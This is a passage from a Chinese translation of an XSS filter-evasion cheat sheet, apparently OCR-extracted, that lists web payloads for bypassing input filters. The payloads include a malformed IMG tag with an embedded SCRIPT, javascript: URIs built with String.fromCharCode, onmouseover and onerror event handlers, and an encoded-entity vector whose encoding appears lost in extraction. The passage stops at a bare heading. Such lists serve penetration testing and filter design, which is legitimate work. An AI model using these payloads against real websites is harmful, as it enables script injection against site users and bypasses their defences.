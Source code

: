 最早被 Begeek 发现（可以短小而干净的运行于任何浏览器），这个 xss 向量依靠松散的渲染引擎解析 IMG 标签中被引号包含的字符串来实现。我猜测它最初是为了正确编码而造成的。这将使它更加困难的去解释 HTML 标签。

```
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
```

## fromCharCode

如果没有任何形式的引号被允许，你可以 eval() 一串 fromCharCode 在 javascript 来创建任何你需要的 xss 向量。

```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```

## 默认 SRC 属性去绕过 SRC 域名检测过滤器

这将绕过绝大多数 SRC 域名过滤器。插入 javascript 代码在任何一个事件方法同样适用于热河一个 HTML 标签，例如 Form、Iframe、Input、Embed 等等。他将也允许任何任何该标签的相关事件去替换，例如 onblur, onclick 等，后面我们会附加一个可用的事件列表。由 David Cross 提供，Abdullah Hussam 编辑。

```
<IMG SRC=# onmouseover="alert('xxs')">
```

## 默认 SRC 属性通过省略它的值

```
<IMG SRC= onmouseover="alert('xxs')">
```

## 默认 SRC 属性通过完全不设置它

```
<IMG onmouseover="alert('xxs')">
```

## 通过 error 事件触发 alert

```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

## 十进制 html 编码引用

所有在使用 javascript 指令的 xss 示例将无法工作在 Firefox 或 Netscape 8.1+，因为它们使用了 Gecko 渲染引擎。使用 XSS [Calculator](http://ha.ckers.org/xsscalc.html) 获取更多信息。

```
<IMG SRC=javascript:alert(
'XSS')>
```

## 结尾没有分号的十进制 html 编码引用
